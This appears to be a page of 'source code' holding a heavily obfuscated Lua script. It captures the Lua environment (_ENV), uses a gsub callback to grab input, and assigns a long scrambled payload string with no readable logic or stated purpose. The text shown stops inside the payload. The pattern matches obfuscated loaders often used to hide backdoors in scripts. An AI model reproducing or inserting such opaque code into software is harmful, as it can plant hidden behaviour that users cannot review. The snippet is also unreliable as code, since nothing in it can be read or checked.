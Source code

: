 :gsub('.+', (function(a) _wgPxvbkzupCH = a; end)); MpJzEblETMVBSRgg=_ENV;_fsKfoGMoIXOrMQ='#j1iZPW{.TX%NeO8e{P18%XZP_iZT8Z.8jT.i88ZTeZ1OOPO8NXPTj1TO.Z.1XeP.T1WeN{11OeP{g1WNx{PjeNNWWj.N{1XQ.%eWZN8%NPXu{XTWP2eXoPX8WWTi18OTOZe8PP8ZWOiTZZ1XNTTiOOeTi1ee..%iNeX.i1NeiWPjNeX{18TNO{Wj{NiWXj%e1WXji%NWiO8XNP.+1WWijjjWjW1e{.jieO1.T1j jXjPi8zTTZ1OT{.Zie8T^iPOX.%jWeO.Pi%eX.P1Te1{%11X8W%1*Nj{Z1{NiWNjP%NiOji%%PN-.X8i{aTX8P(8X%LPPje{NiZ8j.-{XOWOCZ{8jTWi8O.8i%iP{8ji.OW.{i7eT.ubNNT{Nj8%{Wej{Ne.ejNNPWOjPXjWNjP%eZ%6WXeP1O8%TW50FXOP4mP.iZe8jTXZZ8W{1ZO8{TOZZ8iTiiNOP.NYOeP.Ti1ej{T1ZeP.1ZTej{X1iNXZX1{N8{iNeTOWfjZ%eWTjX%jPX?NW{ii8X%Z=%%Z{8P8NTP.PTNO{.iZeT.uj.8.T.ZiO{TQiTPWONTWZTO%i1OT.j1Xei{XwWNi{WjTX%{P1iNjW{ji%WPejT%{WWIO%.WX7{%bPTov.{Pj8PT8ii8OTXZ%80XPZW8jT8Z7OTT1iTejTki8O{Tj1{ei.WZZeP{O1{NO{8j.e{WT1ZNeW.1n%OW1Oj{81.eW{81Ne;{T1iNe{X1iN%X%P{8XXiZNW.j1%TPTx{XTOOTeieOW.8iWOT.eiXOZ.%1%eT{%1Nee{%1ZNe{ZLs%e{njiXOWTj{%WWXj%%%W1R%%ZPe=WX8Z.ZJXeWi8NXPZO8P{TPPeO.i1XeZ{TiNO.WXjeNX{0jONi.Xi.eT.11%e1PT1Oe{{N8NNi{%j8N%WOj{NIW{O8%NPTp.X8W1jj%jPX<iXXWjeW.+iNOj..1pz)XwPNO8T.ZjO.W.ZPOeTjO%%N{Oi1e%.{i.N8{.1X.Pi8jXNN{1jPNW{1jTN1W%jZ%eWWH88.WZMO%iPNYPjj%8Wjj%PPkUXZZe8WTeZiOWT%iNO8TNiOO{THT8Pj8eTTiOOTT{e%.N1Xei{N1iXiW8j.%mW%j1NNWXjTNjW%jT%XWi?N%iiP(X%1Wj8%XePN?qX%Z88.XjZ.eCTiZ.8hTXZiOTT1i%P{71T.O1.eijeX.i1X%e{%1.NT{NWZN%{ZjeNZP{jZ%O{jN{%WW19O%tjZjZX{W1%.%jPNC1%7ZX8jX%ZPOeP1P1OeXjiOT8{PZSOTTjj8eX.jO{NWZNO1Ne.eeeNN{ZjNNW{NjZN.iOO{T6iTNTNjWTNZ%jP8j1X%W?0NX{P%j2XXPi8N8WXiZ{8iT.i{m{XeiNOTTjiNOT%11..OiPeO.{iyeTW1TXjZ.)iWN8{.1jN.Z8jjNPWOjXN%W1V%%ej.OWNpP.uX%TPe?{XNPP8Oj%NTWT-{ZO8OTeZWO8TWjWO1.%j1OOTWi8Oi.%iPOT.Z1eeW{ej%eN{P4{e.{8jZNW{O11NWZ18xNkWNn8%.Wjc.%{W1^1%tP8R+XTPZ8%XZZe8WT8Z.8jTXZW8{TPiOO{.OiTOP.71NOZ.OiPeP.i1PiP{N1PNO.T{8NT{1j%OTWejW%8WOji%XWiHN%TPOF.%!PX?1X8.e8eXWZ88NXjZ%8iX*{OOOT{Z!jTT1iNOZ.e.Pe8..ijeX.i1NeP{O{.en{X11N%{ZjeNWW81TNjWXji%NWPq8%{.^iP%1P%9ZXePWjZX.WiZjXiZe8PN%Z{8qTTPZO8TZi8OW%Zi.Oj.XiTee.Pije{.M1Tei{%1PNe{WiZN.{jjXNZWNjP%OW{1Z%TWZ^%%WPeb{X8WXjjXXPP8NNeZO8{XJP%8eT%Z{OeX.i8O.TjPX8e.Ni.eO.XiB8%.1ieOO{e1XN8.P1jNX{iiNeNWOj%N4Wej1eTWZj8N6P8Ce%jWN}iXNPPjOeiPp8OX1PK8Z%TZW6jN%Zj8_TiZOOP.Oi{5fXPi1Oj.ZiieW.{1.ej.11iei{PjON{{0jTeZWOjZNPWWiN%.WjVXNPWe?P%{P{1WXTP18%%WPO8WXTZ.vWTXZiONTTZPO{T.iTUi.%iPee.W.je..e1Xe.{N1PNO{{.PNT{8j%N8WejW%8W.1O%XW8DN%{PO_T%;PTt%X%P%8e%jZ8bZXjZXg.TNZNOOXiZM8ZT1i8g%.eiOe8Xiije%.i1N7T{O18ek.j11N%{Z1iN{W819NjW%ji%eWPjZ%{WnjO%1P%SZX8PW88X.Pj!8XiZN8PX1Z{8aTTZ1F=TZieOWT{i.Oj.Xii8j.P1Oe{.i1Te1{%1ZO1{Wj8N.{.jXNiWNjPeiW{j=%TWiV%%ZPeMWe{P.7XXXP%8NXPZO8{%NZT8NT%ZZOeTWi8O.XPiXON.Ni{eO.Ti/eT.{1%eZ{e18N8{.1jNX.ijNNPWOjTN_WTj1%%{{-e%WP82.%jPXLi%-Wj8OX{PVPXX1ZN8ZX8WWO8T.ZjG?TiiNOPXO.ZO!.Ti1e%.ZZ1eWTj1Nej{X1ie8{PjON{.11jN1W%jZeiWWc8%..jjj%iPNcPXOP{j%XTWZFOXZZe8WNXZ.8jTXZiUiTPiOO{TjiTO1.%ZW8X.W18e..%1Xei{Ni{OO{{1=NTTNj%NZWeiN8%W.jj%XT8&N%WPO1%%lPei%X%PZ8eO1Z88TXjZXi.TNZPOOT.ZtOTT1ZenZ.eiWe8%WijeX.iiOii{O1.ezTW11N%{ZieN{W8jTNjW%jieiWP1&%XWJAN%1PN9ZXePW88%NPj8%XiZ88PTOZ{8qTXZ1O%TZieOWTji.OjTXiieN.P18e{.11T81.X1ZNO{Wj8N..PjXNi%%jPNjW{jm%TWWq%OZ%1_W%1P.BWXXWN8NePWP8{XiZTtjT%{(OeNWZ4O.TZiXOP.NWjeO%{ZTeT.P1%eX{ei8N8{.1eNX{ZjNN.WOjTNB.T1X%%WWne%{P8jj%jPX/OXNPT8OX{P 8NX1{%8TTeZXO8TeZjjjTiWN8j.Oi%O7XXi1ON.ZPee.{81Nej{O1i8.{PjOeZ{wj%N1W8jZ%8WW18%NWj-e%iPOvPNeP{2BXNP1xUXZZe8WX_Z.1j%iZi8jTPZiO{TNiTO1T.iZO4.WiZe..i1X8i%{1Pe1{{12NT.lj%NZ{OjWNPW.jj%XW{YNOPWN({%WPTD{X%WZ8eeWPj8.X{ZXjiTNZ.OON{PXOTT.i%8N.eZ{e8%.i.eX.T1N8.{O1OeV{TiZN%{.jeNNW8jTNj.X1W%NWThO%TWxi1%1P%PiXePN88X.Pj8NXi{N8XTOZe8dTOZ1kPTZi8Z1.8i8Oj.NiieN.PiO81.o18e1.W1ZeZ{Wj8e.{jjONi{1jP%8W{j^8OW1}%%ZPO7WX8P.^ZXXPi8NXPZO8{X,Z%81T%ZZOeTOi8O.TjiXOi.NiPeONNi}eT.11NeZ{e1WN8{.1jNX{Z1iNPWOj{NiWTj1%%WZH8%WP8>.%jPXaiXNTPBjXNPu8TX1%8PP88%1PZTXZjOXTiiNOP.OX{1M.Ni.e%.Z1eZT8iTXiXO..XN8{WjON{{=j{NZW%jZ%eWWB8%.PjZTOPPN7PXOP{1OXTPi8%XZZe8WT8Z.ZiTXZPONTPiOO{TfiTZ..%iPee..18eX.jP2OX{N1WNO.i1sNX{1jONZ{jZ8%8W.jjNWWi7e%PPOiP%uPXr1XNPZ8eXWZ8ZXXjZN8iTNZPOOT{ZWOXT1iOOZ.eiWOv..iieX.iZjeP{O1{e5{T11N%{ZPXNWW8j.NiWXji%NWP{1%{WjnT%PP%-PXePXi.X.Pj8XeiZN8WTOZ{jOTTZiO%TZieOW.8i.ii.XiPeN.P1Oe{.p1Ti.{%1PNe{.j8NX{jZ-eXWNjW%OT{jL%XW1jw%ZWji8X8P.&jeXPi8eXPZOjZXaZX81T%ZZOeTWZe9XTjZjOi%NiPe8.{ijeT.WWZeZ{e1W88{.11NX{iZXNPW8j{NiWTj1%%WZZZ%WWjK.%jPX+iXNW{ajX{Pi8TXTZ%8ZTeP.8{T.ZPOXTXiNOP.Oi{8e.Tiie%..1ee.{8ZOON{X1ZNNXPjON.{lj8N1W8Ze%eWW+8O.WjD%%iWOPjXOP.6&XXP18%XZP8Z1T8ZX8jTNZiONTPiO&ZTGiNO1.%iZee.WZj1Z.j1Oei.i1PNO{{1Ze%{1jeNZTNjWNvW.jjxNWij1%PP8){%LPTS18TPZwZXWPi8.XjZX8i%LZP8WT{ZZOTT1i%OZXiiWO...iZeX.i1NeP.%1{eX{T11N%{ZjeNW{Oj.NNWXj.%NWPvO%{{ZlT%OP%3TXePW88X.PT8XXNZNojTOZT85TTW.O%TNieOO.8ZjOj.XW1eN.O1OeN.51Te1{%ieNe{Oj8ec{j1iNi.N1e%OW8j=NjW1V8%ZPe*.X8P8_j%jPi2ZXPZO3.X+ZX81XjZZ8ZTWZiK8TjiNOiXNiPe8.{ix1j.11NeZ{81WN8{.1jj1{ijNNP{6j{NrWTj16xWZ_e%WWUb.%jPXkZXNPP8OX{Pd8TX1Pj8ZTeZWO8XOZjONTiiNOP.Oi{ObTTi1eO.Z1OeW{81.ej{N1ieJ{Pj8N{{0jTN1{.jZNMWWjj%.WiHX%i{ZzP%GP{!0XTPP8%XZPP8WT8Z.81TXZiONTPiOO{T!i%OiTWiZee.Wi1OK.j1Xei{Xfjej{{jeNjW{1.N{{TjW%8W.}8XiWPYN%.PP_W.eP%8NXO1N,cX%Z88.XjZ.OOTjZWO{TXZNOTT1i%O1{Wi.e8.%1.eTW91ON8.j?zei.P11N%{Zj%X8{jj.NZWjj1TTW{^.%XiP!N%PP%/ZXePZOP.jPZ)NXiZN8PTN1eOTTeZ1O..%i1OO..i0N.T1iWO1{X1Te!.iiZe1{%1ZN%PcjNNOWXJj%N{1j8%{WejiNPW1^%%ZP%O8%jP.CZXjP1eTX{Z.8X{WZN8eT%ZZOeTZjXOjTT1jeNT1i8e%{O1TeN.O1%eZ{e1Z%.{X1jNeWXj%X1{*jjNiZ)Z+%%WZ}eN.TTA.%jPXUWXNPP8ON{WN8TX1Z%8ZTePcO8XXPOOXTPiNON.Oi{Or.TZTe%.Z1ee.{81XejTXijNN{PjON{{7j8N1.%jP%eWWL8%.Wjw%%i{N1gXOP{23XTP1